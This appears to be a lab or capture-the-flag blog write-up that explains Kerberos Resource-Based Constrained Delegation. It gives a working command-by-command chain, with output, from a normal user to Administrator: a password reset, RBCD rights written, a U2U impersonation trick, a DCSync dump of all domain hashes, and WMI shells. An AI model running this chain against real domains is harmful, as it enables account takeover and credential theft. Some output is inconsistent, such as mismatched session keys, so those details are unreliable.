




Modern Attack Upon RBCD: from Normal User to Administrator
RBCD Overview
Stands for Resource-Based Constrained Delegation is an interesting attack, in the right conditions it allows users to take control of computers and domains through the simple use of the very mechanics of the kerberos authentication protocol.
Normal User to Administrator
In this journey, it would be in scope of RBCD and S4U2Proxy, the user sends a TGS to access the service ("Service A"), and if the service is allowed to delegate to another pre-defined service ("Service B"), then Service A can present to the authentication service the TGS that the user provided and obtain a TGS for the user to Service B.
Example:

Photos from here, amazing blog.
PS: that the TGS provided in the S4U2Proxy request must have the FORWARDABLE flag set. The FORWARDABLE flag is never set for accounts that are configured as "sensitive for delegation" (the USER_NOT_DELEGATED attribute is set to true) or for members of the Protected Users group.
S4U2Proxy requires the service to present a TGS for the user to itself before the authentication service produces a TGS for the user to another service. It is often referred to as the "additional ticket", but I like referring to it as "evidence" that the user has indeed authenticated to the service invoking S4U2Proxy.
However, sometimes users authenticate to services via other protocols, such as NTLM or even form-based authentication, and so they do not send a TGS to the service. In such cases, a service can invoke S4U2Self to ask the authentication service to produce a TGS for arbitrary users to itself, which can then be used as "evidence" when invoking S4U2Proxy.
Practical Execution
Overall in this write-ups, we are starting with BloodHound, knowing we have ForceChangePassword to users, and the user we change password have AddAllowToAct access towards DC computer, enabling us in final to get Domain Admin Ticket, and do DCSycn Attack.
With a kit of Execution of:
- bloodyAD
- BloodHound CE
- Impacket
- NetExec
1. Gaining Access to Normal User
Checking the Graph, we have 3 ForceChangePassword, which everyone have the same rodemap towards Domain Admin, I'm going to pick User CROSE.

┌──(byt3n33dl3㉿kali)-[~]
└─$ nxc ldap dc.phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc
LDAP 10.129.234.63 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
LDAP 10.129.234.63 389 DC [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc┌──(byt3n33dl3㉿kali)-[~]
└─$ bloodyAD --host dc.phantom.vl -d phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc set password CROSE Passw0rd1
[+] Password changed successfully!With a push-of a button from bloodyAD we now own regular User. Now let's seeking Delegation type.
Remember, our compromised user set are CROSE:Passw0rd1.
2. Abusing AddAllowToAct from BloodHound
AddAllowedToAct really means that this user can edit the msds-AllowedToActOnBehalfOfOtherIdentity attribute on the computer object. This is how RBCD are configured. I set this property on one server saying that another service (user) can authenticate on behalf of other users.

To exploit this, typically it will requires user with SPN. This is most commonly exploited by creating a computer object, as the default AD configuration allows any user to add up to ten computers to the domain. However, on this machine account scenario it have quota set to 0:
┌──(byt3n33dl3㉿kali)-[~]
└─$ nxc ldap dc.phantom.vl -u crose -p Passw0rd1 -M maq
LDAP 10.129.234.63 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
LDAP 10.129.234.63 389 DC [+] phantom.vl\crose:Passw0rd1
MAQ 10.129.234.63 389 DC [*] Getting the MachineAccountQuota
MAQ 10.129.234.63 389 DC MachineAccountQuota: 0This is now the main reason topic of this blog posts, we understand why a SPN is typically required. But there's a way to play around it.
Important PS: Basically, if I can set a user's password such that their NTLM hash matches the TGT session key on the DC, all the crypto will work out that the attack works.
To begin, I will start to create krb.conf files with NetExec since RBCD would touch a-lof of Kerberos related.
┌──(byt3n33dl3㉿kali)-[~]
└─$ nxc smb dc.phantom.vl -u crose -p Passw0rd1 --generate-krb5-file krb.conf
SMB 10.129.234.63 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB 10.129.234.63 445 DC [+] phantom.vl\crose:Passw0rd13. RBCD Attack for Administrator Impersonation
Mainly here is going to be impacket as swiss army kit. First we're gonna add the RBCD, followed by fetching compromised Normal User TGT, then we do another change on Normal User new hashes (but now via NTLM), from there we will impersonate Administrator and ask for domain admin Ticket.
┌──(byt3n33dl3㉿kali)-[~]
└─$ rbcd.py -delegate-to 'DC$' -delegate-from crose -action write phantom/crose:Passw0rd1 -dc-ip 10.129.234.63
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] crose can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*] crose (S-1-5-21-4029599044-1972224926-2225194048-1126)We add new attribute
┌──(byt3n33dl3㉿kali)-[~]
└─$ getTGT.py phantom.vl/crose:Passw0rd1
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in crose.ccacheAnd we fetch our ticket for some analysis.
┌──(byt3n33dl3㉿kali)-[~]
└─$ describeTicket.py crose.ccache
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key : 4bc62b02f076446e65092fc4c0426df3908efc80f8a208c39694f34d156d81bf
[*] User Name : crose
[*] User Realm : PHANTOM.VL
[*] Service Name : krbtgt/PHANTOM.VL
[*] Service Realm : PHANTOM.VL
[*] Start Time : 26/01/2026 08:43:25 AM
[*] End Time : 26/01/2026 18:43:25 PM
[*] RenewTill : 27/01/2026 08:43:24 AM
[*] Flags : (0x50e10000) forwardable, proxiable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType : aes256_cts_hmac_sha1_96
[*] Base64(key) : S8YrAvB2RG5lCS/EwEJt85CO/ID4ogjDlpTzTRVtgb8=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : krbtgt/PHANTOM.VL
[*] Service Realm : PHANTOM.VL
[*] Encryption type : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were suppliedAnother thing we're looking for is the Ticket Session Key:
┌──(byt3n33dl3㉿kali)-[~]
└─$ describeTicket.py crose.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key : 5892d6978004253fc8b8cbbd0a32f2e9Now we set new hash for User CROSE.
┌──(byt3n33dl3㉿kali)-[~]
└─$ changepasswd.py -newhashes :5892d6978004253fc8b8cbbd0a32f2e9 phantom/crose:Passw0rd1@dc.phantom.vl
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] Changing the password of phantom\crose
[*] Connecting to DCE/RPC as phantom\crose
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).Supposed now we can export the crose.ccache once again and we will able to do Administrator impersonation.
┌──(byt3n33dl3㉿kali)-[~]
└─$ export KRB5CCNAME=KRB5CCNAME=crose.ccache┌──(byt3n33dl3㉿kali)-[~]
└─$ getST.py -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/crose -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache┌──(byt3n33dl3㉿kali)-[~]
└─$ export KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccacheThat's the Administrator Tickets folks. This is already Pwned! machine, and so many things we can do:
┌──(byt3n33dl3㉿kali)-[~]
└─$ nxc smb dc.phantom.vl --use-kcache
SMB dc.phantom.vl 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB dc.phantom.vl 445 DC [+] phantom.vl\Administrator from ccache (Pwn3d!)4. DCSycn Attack
DCSycn on NetExec with Kerberos cache.
┌──(byt3n33dl3㉿kali)-[~]
└─$ nxc smb DC.phantom.vl --use-kcache --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB DC.phantom.vl 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB DC.phantom.vl 445 DC [+] phantom.vl\Administrator from ccache (Pwn3d!)
SMB DC.phantom.vl 445 DC [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB DC.phantom.vl 445 DC Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117:::
SMB DC.phantom.vl 445 DC Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB DC.phantom.vl 445 DC krbtgt:502:aad3b435b51404eeaad3b435b51404ee:de0c6c1bf90cdc90ed73c2b765793df6:::
SMB DC.phantom.vl 445 DC phantom.vl\svc_sspr:1103:aad3b435b51404eeaad3b435b51404ee:8ecffccc2f22c1607b8e104296ffbf68:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\rnichols:1112:aad3b435b51404eeaad3b435b51404ee:6e2c9daa1d71941ea201a79fe134008a:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\pharrison:1113:aad3b435b51404eeaad3b435b51404ee:744cc56188561af3c16a8d0cd1e758d1:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\wsilva:1114:aad3b435b51404eeaad3b435b51404ee:a481bb1b52c2a40fef6b9f0d22df5a7b:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\elynch:1115:aad3b435b51404eeaad3b435b51404ee:753389c36525eaa2182d2366e21cb37e:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\nhamilton:1116:aad3b435b51404eeaad3b435b51404ee:2d3aa57851c7686d3d3df4c2bf3ebbb8:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\lstanley:1117:aad3b435b51404eeaad3b435b51404ee:3945cd9505e0eca3621a4b61506a131a:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\bbarnes:1118:aad3b435b51404eeaad3b435b51404ee:8b86efbee20746efcf97d50081a7ada9:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\cjones:1119:aad3b435b51404eeaad3b435b51404ee:0253df7e458eedfc1b511ae1eadad057:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\agarcia:1120:aad3b435b51404eeaad3b435b51404ee:54199065e48fae91d67176d5d2c3d506:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ppayne:1121:aad3b435b51404eeaad3b435b51404ee:e628d1e4d23696da908acc1add7efbe4:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ibryant:1122:aad3b435b51404eeaad3b435b51404ee:ca996d2266c0e306701b78a06e3c29ab:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ssteward:1123:aad3b435b51404eeaad3b435b51404ee:5839c34d11b418846131f6944be80ca6:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\wstewart:1124:aad3b435b51404eeaad3b435b51404ee:1d2256228378d2093d25f5122981bcde:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\vhoward:1125:aad3b435b51404eeaad3b435b51404ee:fc97143b237f56c06e0d4f4bff1c7a09:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\crose:1126:aad3b435b51404eeaad3b435b51404ee:5892d6978004253fc8b8cbbd0a32f2e9:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\twright:1127:aad3b435b51404eeaad3b435b51404ee:f082f34b171dd47297674c2be83991b7:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\fhanson:1128:aad3b435b51404eeaad3b435b51404ee:3ecba7b39ce4b3fbe05362d6e05d31d0:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\cferguson:1129:aad3b435b51404eeaad3b435b51404ee:74bb37fa58020392821cdb89b5098f2d:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\alucas:1130:aad3b435b51404eeaad3b435b51404ee:53bd6a54d3dd605385e55f3226b0814d:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ebryant:1131:aad3b435b51404eeaad3b435b51404ee:abf123fca11a39c94bd92505f61c12a5:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\vlynch:1132:aad3b435b51404eeaad3b435b51404ee:c6837ff88c25daea76b0f390f7ab0552:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ghall:1133:aad3b435b51404eeaad3b435b51404ee:a1ca032e6023ddeedd9009d4c0a8c836:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ssimpson:1134:aad3b435b51404eeaad3b435b51404ee:1c029611755dfa697b1996f88a8d9c17:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\ccooper:1135:aad3b435b51404eeaad3b435b51404ee:fc35a773ba47633c4c1a807f91e9d496:::
SMB DC.phantom.vl 445 DC PHANTOM.vl\vcunningham:1136:aad3b435b51404eeaad3b435b51404ee:c187274e5ff6a96c44bce6200d6e7944:::
SMB DC.phantom.vl 445 DC DC$:1000:aad3b435b51404eeaad3b435b51404ee:648605bbb93c66d7754580cb850957fc:::
SMB DC.phantom.vl 445 DC [+] Dumped 30 NTDS hashes to /root/.nxc/logs/ntds/DC_DC.phantom.vl_2026-01-26_085703.ntds of which 29 were added to the database
SMB DC.phantom.vl 445 DC [*] To extract only enabled accounts from the output file, run the following command:
SMB DC.phantom.vl 445 DC [*] cat /root/.nxc/logs/ntds/DC_DC.phantom.vl_2026-01-26_085703.ntds | grep -iv disabled | cut -d ':' -f1
SMB DC.phantom.vl 445 DC [*] grep -iv disabled /root/.nxc/logs/ntds/DC_DC.phantom.vl_2026-01-26_085703.ntds | cut -d ':' -f1 
Then logon as Administrator with NTLM:
┌──(byt3n33dl3㉿kali)-[~]
└─$ wmiexec.py administrator@DC -hashes :aa2abd9db4f5984e657f834484512117
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
phantom\administrator
C:\>hostname
DCOr Logon with Administrator Ticket
┌──(byt3n33dl3㉿kali)-[~]
└─$ getTGT.py phantom.vl/administrator -hashes :aa2abd9db4f5984e657f834484512117
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in administrator.ccache
┌──(byt3n33dl3㉿kali)-[~]
└─$ export KRB5CCNAME=administrator.ccache
┌──(byt3n33dl3㉿kali)-[~]
└─$ wmiexec.py administrator@DC -k -no-pass
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
phantom\administratorMulti Shellss!!, I think that's all about it.
Moreover, Proton me if you have further question and suggestion.
Happy hacking!